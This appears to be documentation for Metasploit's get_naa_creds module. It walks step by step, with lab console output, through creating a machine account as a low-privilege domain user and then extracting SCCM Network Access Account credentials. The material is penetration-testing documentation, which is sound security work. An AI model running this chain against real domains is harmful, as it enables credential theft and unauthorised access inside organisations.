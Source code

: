 ## NAA Credential Exploitation

The NAA account is used by some SCCM configurations in the policy deployment process. It does not require many privileges, but 
in practice is often misconfigured to have excessive privileges.

The account can be retrieved in various ways, many requiring local administrative privileges on an existing host. However,
it can also be requested by an existing computer account, which by default most user accounts are able to create.


## Module usage
The `admin/dcerpc/samr_computer` module is generally used to first create a computer account, which requires no permissions:

1. From msfconsole
2. Do: `use auxiliary/admin/dcerpc/samr_account`
3. Set the `RHOSTS`, `SMBUser` and `SMBPass` options
   a. For the `ADD_COMPUTER` action, if you don't specify `ACCOUNT_NAME` or `ACCOUNT_PASSWORD` - one will be generated automatically
   b. For the `DELETE_ACCOUNT` action, set the `ACCOUNT_NAME` option
   c. For the `LOOKUP_ACCOUNT` action, set the `ACCOUNT_NAME` option
4. Run the module and see that a new machine account was added

Then the `auxiliary/admin/sccm/get_naa_creds` module can be used:

1. `use auxiliary/admin/sccm/get_naa_creds`
2. Set the `RHOST` value to a target domain controller (if LDAP autodiscovery is used)
3. Set the `USERNAME` and `PASSWORD` information to a domain account
4. Set the `COMPUTER_USER` and `COMPUTER_PASSWORD` to the values obtained through the `samr_computer` module
5. Run the module to obtain the NAA creds, if present.

Alternatively, if the Management Point and Site Code are known, the module can be used without autodiscovery:

1. `use auxiliary/admin/sccm/get_naa_creds`
2. Set the `COMPUTER_USER` and `COMPUTER_PASSWORD` to the values obtained through the `samr_computer` module
3. Set the `MANAGEMENT_POINT` and `SITE_CODE` to the known values.
4. Run the module to obtain the NAA creds, if present.

The management point and site code can be retrieved using the `auxiliary/gather/ldap_query` module, using the `ENUM_SCCM_MANAGEMENT_POINTS` action.

See the Scenarios for a more detailed walk through

## Options

### RHOST, USERNAME, PASSWORD, DOMAIN, SESSION, RHOST
Options used to authenticate to the Domain Controller's LDAP service for SCCM autodiscovery.

### MANAGEMENT_POINT
The SCCM server.

### SITE_CODE
The Site Code of the management point.

## Scenarios
In the following example the user `ssccm.lab\eve` is a low-privilege user.

### Creating computer account

```
msf6 auxiliary(admin/dcerpc/samr_account) > run rhost=192.168.33.10 domain=sccm.lab username=eve password=iloveyou
[*] Running module against 192.168.33.10

[*] 192.168.33.10:445 - Adding computer
[+] 192.168.33.10:445 - Successfully created sccm.lab\DESKTOP-2KVDWNZ3$
[+] 192.168.33.10:445 -   Password: pJTrvFyDHiHnqtlqTTNYe2HPVpO3Yekj
[+] 192.168.33.10:445 -   SID:      S-1-5-21-3875312677-2561575051-1173664991-1128
[*] Auxiliary module execution completed
```

### Running with Autodiscovery
Using the credentials just obtained with the `samr_account` module.

```
msf6 auxiliary(admin/sccm/get_naa_creds) > options

Module options (auxiliary/admin/sccm/get_naa_creds):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   COMPUTER_PASS                      yes       The password of the provided computer account
   COMPUTER_USER                      yes       The username of a computer account
   MANAGEMENT_POINT                   no        The management point (SCCM server) to use
   SITE_CODE                          no        The site code to use on the management point
   SSL               false            no        Enable SSL on the LDAP connection
   VHOST                              no        HTTP server virtual host


   Used when connecting via an existing SESSION:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                no        The session to run this module on


   Used when making a new connection via RHOSTS:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   DOMAIN                     no        The domain to authenticate to
   PASSWORD                   no        The password to authenticate with
   RHOSTS                     no        The domain controller (for autodiscovery). Not required if providing a management point and site code
   RPORT     389              no        The LDAP port of the domain controller (for autodiscovery). Not required if providing a management point and site code (TCP)
   USERNAME                   no        The username to authenticate with


View the full module info with the info, or info -d command.
msf6 auxiliary(admin/sccm/get_naa_creds) > run rhost=192.168.33.10 username=eve domain=sccm.lab password=iloveyou computer_user=DESKTOP-2KVDWNZ3$ computer_pass=pJTrvFyDHiHnqtlqTTNYe2HPVpO3Yekj
[*] Running module against 192.168.33.10

[*] Discovering base DN automatically
[*] 192.168.33.10:389 Discovered base DN: DC=sccm,DC=lab
[+] Found Management Point: MECM.sccm.lab (Site code: P01)
[*] Got SMS ID: BD0DC478-A71A-4348-BD14-B7E91335738E
[*] Waiting 5 seconds for SCCM DB to update...
[*] Got NAA Policy URL: http://<mp>/SMS_MP/.sms_pol?{c48754cc-090c-4c56-ba3d-532b5ce5e8a5}.2_00
[+] Found valid NAA creds: sccm.lab\sccm-naa:123456789
[*] Auxiliary module execution completed
```

### Manual discovery

```
msf6 auxiliary(gather/ldap_query) > run rhost=192.168.33.10 username=eve domain=sccm.lab password=iloveyou
[*] Running module against 192.168.33.10

[*] 192.168.33.10:389 Discovered base DN: DC=sccm,DC=lab
CN=SMS-MP-P01-MECM.SCCM.LAB,CN=System Management,CN=System,DC=sccm,DC=lab
=========================================================================

 Name           Attributes
 ----           ----------
 cn             SMS-MP-P01-MECM.SCCM.LAB
 dnshostname    MECM.sccm.lab
 mssmssitecode  P01

[*] Query returned 1 result.
[*] Auxiliary module execution completed

msf6 auxiliary(gather/ldap_query) > use auxiliary/admin/sccm/get_naa_creds

msf6 auxiliary(admin/sccm/get_naa_creds) > run computer_user=DESKTOP-2KVDWNZ3$ computer_pass=pJTrvFyDHiHnqtlqTTNYe2HPVpO3Yekj management_point=MECM.sccm.lab site_code=P01

[*] Got SMS ID: BD0DC478-A71A-4348-BD14-B7E91335738E
[*] Waiting 5 seconds for SCCM DB to update...
[*] Got NAA Policy URL: http://<mp>/SMS_MP/.sms_pol?{c48754cc-090c-4c56-ba3d-532b5ce5e8a5}.2_00
[+] Found valid NAA creds: sccm.lab\sccm-naa:123456789
[*] Auxiliary module execution completed
```